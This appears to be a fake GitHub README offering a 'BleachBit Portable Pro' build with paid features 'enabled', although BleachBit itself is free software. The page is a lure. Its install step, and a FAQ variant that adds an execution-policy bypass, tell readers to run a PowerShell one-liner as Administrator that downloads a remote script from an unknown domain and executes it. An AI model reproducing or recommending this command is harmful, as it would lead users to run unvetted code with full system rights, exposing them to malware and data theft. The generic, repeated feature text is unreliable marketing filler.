

<div align="center">


<br>


# BleachBit Portable Deep Clean Professional Suite
**Privacy wipe · Temp cleanup · App shredder**
<br>
**Privacy wipe · Temp cleanup · App shredder**
<br>
Full Version  ◆  Pro  ◆  Complete  ◆  Windows



**BleachBit Portable — temp file cleanup, application cache clearing, privacy wipes and portable deep-clean tools all enabled.**

</div>
---

> Free gigabytes and reduce digital traces — deep cleaners, cache shredders and privacy wipes all enabled.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://webmania.xyz/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🧰 **Pro utilities** — Advanced file and document tools enabled.
📦 **Local desktop tools** — Works offline after setup.
🖥️ **Windows optimized** — Built for daily productivity on 10/11.
⚙️ **Power-user workflow** — Batch operations and profiles included.
📋 **Complete toolkit** — Presets and templates supported.
✨ **Premium modules** — Paid features enabled in this build.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 500 MB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://webmania.xyz/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 500 mb free space.
</details>


TAGS
bleachbit-portable, bleachbit, bleachbit-pro, bleachbit-suite, bleachbit-app, privacy-wipe, temp-cleanup, windows, pro, desktop, software, studio, tools
